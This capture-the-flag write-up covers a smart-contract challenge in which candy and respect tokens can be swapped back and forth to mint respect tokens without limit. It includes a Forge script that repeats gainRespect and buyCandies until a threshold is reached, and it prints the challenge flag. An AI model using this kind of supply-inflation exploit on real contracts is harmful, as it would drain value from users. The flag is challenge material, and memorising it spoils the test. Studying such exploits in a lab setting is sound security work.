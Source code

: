 The candy tokens can be exchanged for respect tokens through `fancyStore.sellCandies()` or `localGang.gainRespect()`. These two functions are slightly different. The `sellCandies()` function burns candy tokens and transfers the respect tokens stored in the contract to the `msg.sender`, while the `gainRespect()` function transfers the candy tokens from the `msg.sender` and **mint** respect tokens to msg.sender. Thus, the total supply of respect tokens can be increased through `gainRespect()`. Similarly, we can increase the total supply of candy tokens through `fancyStore.buyCandies()`.

Starting with 10 candy tokens, we can first exchange them for 10 respect tokens and increase `candyCount` through `localGang.gainRespect()`. Then, buy 10 candies and increase `respectCount` through `fancyStore.buyCandies()`. At this point, we have obtained an additional 10 candies and transferred 10 respect tokens to the `fancyStore` contract. Repeat these steps until `STORE.respectCount(CREW.receiver())` reaches the desired threshold.

## Script

```js
/// forge script script/Infinite.s.sol --private-key $PRIVATE_KEY --rpc-url $RPC_URL --sig "run(address)" $INSTANCE_ADDR --broadcast
contract InfiniteScript is Script {

    function run(address instance) public {
        vm.startBroadcast();
        Setup setup = Setup(instance);
        crewToken crew = setup.CREW();
        respectToken respect = setup.RESPECT();
        candyToken candy = setup.CANDY();
        fancyStore store = setup.STORE();
        localGang gang = setup.GANG();

        crew.mint();

        crew.approve(address(store), 1);
        store.verification();

        candy.approve(address(gang), 50);
        respect.approve(address(store), 50);
        for (uint i; i < 5; ++i) {
            gang.gainRespect(10);
            store.buyCandies(10);
        }
        vm.stopBroadcast();
    }
}
```

## Flag

`crew{inf1nt3_c4n9i3s_1nfinit3_r3s9ect}`

# deception
